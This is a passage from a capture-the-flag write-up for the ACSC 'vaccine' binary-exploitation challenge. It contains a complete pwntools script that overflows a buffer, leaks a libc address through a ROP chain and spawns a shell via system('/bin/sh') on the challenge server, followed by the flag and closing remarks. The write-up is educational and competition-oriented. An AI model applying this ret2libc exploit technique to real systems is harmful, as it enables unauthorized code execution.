 My solution script:
```py
from pwn import *
context.arch= "amd64"
elf = ELF("./vaccine")
libc = ELF("./libc-2.31.so")
system_offset = libc.symbols['printf'] - libc.symbols['system']
binsh_offset = libc.symbols['printf'] - next(libc.search(b"/bin/sh"))
puts = elf.symbols['puts']
printf_got = elf.symbols['got.printf']

pop_rdi = 0x401443
ret = 0x40101a

# p = elf.process()
p = remote("vaccine.chal.ctf.acsc.asia",1337)
# Leak printf libc address and return to main
payload = p64(pop_rdi) + p64(printf_got) + p64(puts) + p64(elf.symbols['main'])

p.sendlineafter("Give me vaccine: ",b'A\x00'+b'P'*(98+12)+b'A\x00'+b'P'*(264-114)+payload)
p.recvuntil("your flag is in another castle\n")

# Calculate system and binsh libc address
printf_libc = u64(p.recvline()[:-1]+b'\x00\x00')
system = printf_libc - system_offset
binsh = printf_libc - binsh_offset
print(hex(printf_libc),hex(system),hex(binsh))

# Execute system("/bin/sh")
payload = p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.sendlineafter("Give me vaccine:",b'A\x00'+b'P'*(98+12)+b'A\x00'+b'P'*(264-114)+payload)
p.interactive()
```

## Flag
```
ACSC{RoP_3@zy_Pe4$y}
```

# Conclusion
It was a good experience to become part of a big competition like this, many peoeple ask about my challenge `Admin Dashboard` because the mysql service keep crashing. I made a mistake in the docker compose file shouldn't set the resource limit. Also saw some players don't like the challenge `Corrupted` maybe I made it too hard? Anyway congrats to all the winners especially mechfrog88 (Top 1 in Malaysia), can see his [writeup here](https://mechfrog88.github.io/acsc-2023)   